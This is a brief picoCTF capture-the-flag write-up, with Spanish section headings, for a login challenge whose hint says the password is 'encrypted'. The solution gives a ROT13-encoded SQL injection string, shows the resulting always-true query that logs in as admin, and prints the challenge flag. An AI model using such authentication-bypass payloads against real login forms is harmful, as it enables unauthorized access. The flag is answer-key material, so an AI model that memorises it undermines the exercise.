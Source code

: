 ## Descripcion

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
## Pistas

Seems like the password is encrypted.

## Solucion

```
```
password: ' be 1 = 1 --
SQL query: SELECT * FROM admin where password = '' or 1 = 1 --'

Logged in!
```
```
![[3.png]]

## Bandera
picoCTF{3v3n_m0r3_SQL_06a9db19}

## Notas adicionales


## Referencias